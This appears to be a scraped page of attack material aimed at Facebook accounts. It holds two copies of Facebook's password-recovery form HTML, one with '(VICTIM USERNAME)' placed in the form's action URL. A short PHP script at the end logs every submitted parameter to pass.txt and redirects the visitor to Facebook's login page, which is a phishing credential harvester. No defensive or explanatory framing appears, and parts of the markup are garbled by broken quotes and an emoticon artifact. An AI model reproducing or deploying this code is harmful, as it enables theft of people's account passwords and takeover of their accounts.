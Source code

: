 
txt
form method=”post” action=”/recover/password?u=(VICTIM USERNAME)&n=389548? onsubmit=”return window.Event && Event.__inlineSubmit && Event.__inlineSubmit(this,event)” id=”u_0_4?><input type=”hidden” name=”lsd” value=”AVoH0gpvlk4? autocomplete=”off”><div class=”mvl ptm uiInterstitial uiInterstitialLarge uiBoxWhite”><div class=”uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader”><div class=”clearfix uiHeaderTop”><div class=”rfloat _ohf”><h2 class=”accessible_elem”>Choose a new password</h2><div class=”uiHeaderActions”></div></div><div><h2 class=”uiHeaderTitle” aria-hidden=”true”>Choose a new password</h2></div></div></div><div class=”phl ptm uiInterstitialContent”><div class=”mvm uiP fsm”>A strong password is a combination of letters and punctuation marks. It must be at least 6 characters long.</div><table class=”uiInfoTable” role=”presentation”><tbody><tr class=”dataRow”><th class=”label”><label for=”password_new”>New Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_new” name=”password_new” tabindex=”1? autocomplete=”off”><label class=”mls uiButton” for=”u_0_0?><input value=”?” onclick=”show_pwd_help(); return false;” tabindex=”3? type=”button” id=”u_0_0?></label><div id=”password_new_status”></div></td></tr><tr class=”dataRow”><th class=”label”><label for=”password_confirm”>Confirm Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_confirm” name=”password_confirm” tabindex=”2? autocomplete=”off”><div id=”password_confirm_status”></div></td></tr></tbody></table><div class=”mvl”><div class=”mvm”>To make sure your account’s secure, we can log you out of any other computers and phones. You can log back in with your new password.</div><div class=”mvm”><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” checked=”1? name=”reason” value=”kill_sessions” onclick=”CSS.hide(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_1?><label for=”u_0_1? class=”uiInputLabelLabel”>Log me out of other devices</label></div><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” name=”reason” value=”keep_sessions” onclick=”CSS.show(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_2?><label for=”u_0_2? class=”uiInputLabelLabel”>Keep me logged in</label></div></div><div class=”mtm hidden_elem” id=”chpw_survey_hacked_warn” style=”color:red;”>If your account was hacked, please select “Log me out of other devices”</div></div></div><div class=”uiInterstitialBar uiBoxGray topborder”><div class=”clearfix”><div class=”rfloat _ohf”><label class=”uiButton uiButtonConfirm” id=”btn_continue” for=”u_0_3?><input value=”Continue” name=”btn_continue” type=”submit” id=”u_0_3?></label><a class=”uiButton” href=”/” role=”button” name=”reset_action”><span class=”uiButtonText”>Cancel</span></a></div><div class=”pts”></div></div></div></div></form><form method="post" action="/recover/password?
u=100007702657756&amp;n=542903" onsubmit="return window.Event
&amp;&amp; Event.__inlineSubmit &amp;&amp;
Event.__inlineSubmit(this,event)" id="u_0_3"><input type="hidden"
name="lsd" value="AVpICGr3" autocomplete="off"><div class="mvl ptm
uiInterstitial uiInterstitialLarge uiBoxWhite"><div class="uiHeader
uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader"><div
class="clearfix uiHeaderTop"><div class="rfloat _ohf"><h2
class="accessible_elem">Choose a new password</h2><div
class="uiHeaderActions"></div></div><div><h2 class="uiHeaderTitle"
aria-hidden="true">Choose a new password</h2></div></div></div><div
class="phl ptm uiInterstitialContent"><div class="mvm uiP fsm">A
strong password is a combination of letters and punctuation marks. It
must be at least 6 characters long.</div><table class="uiInfoTable"
role="presentation"><tbody><tr class="dataRow"><th class="label">
<label for="password_new">New Password</label></th><td class="data">
<input type="password" class="passwordinput" id="password_new"
name="password_new" tabindex="1" autocomplete="off"><label class="mls
uiButton" for="u_0_0"><input value="?" onclick="show_pwd_help();
return false;" tabindex="3" type="button" id="u_0_0"></label><div
id="password_new_status"></div></td></tr><tr class="dataRow"><th
class="label"><label for="password_confirm">Confirm Password</label>
</th><td class="data"><input type="password" class="passwordinput"
id="password_confirm" name="password_confirm" tabindex="2"
autocomplete="off"><div id="password_confirm_status"></div></td></tr>
</tbody></table><div class="mvl"><div class="uiInputLabel clearfix">
<label class="_kv1 _55sg uiInputLabelInput"><input type="checkbox"
name="reason" value="kill_sessions" id="u_0_1"><span></span></label>
<label for="u_0_1" class="uiInputLabelLabel">Log me out of Facebook
everywhere else my account might be open. (Choose this if a stranger
used your account.)</label></div></div></div><div
class="uiInterstitialBar uiBoxGray topborder"><div class="clearfix">
<div class="rfloat _ohf"><label class="uiButton uiButtonConfirm"
id="btn_continue" for="u_0_2"><input value="Continue"
name="btn_continue" type="submit" id="u_0_2"></label><a
class="uiButton" href="/" role="button" name="reset_action"><span
class="uiButtonText">Cancel</span></a></div><div class="pts"></div>
</div></div></div></form>
&lt;?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&gt; $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&gt;
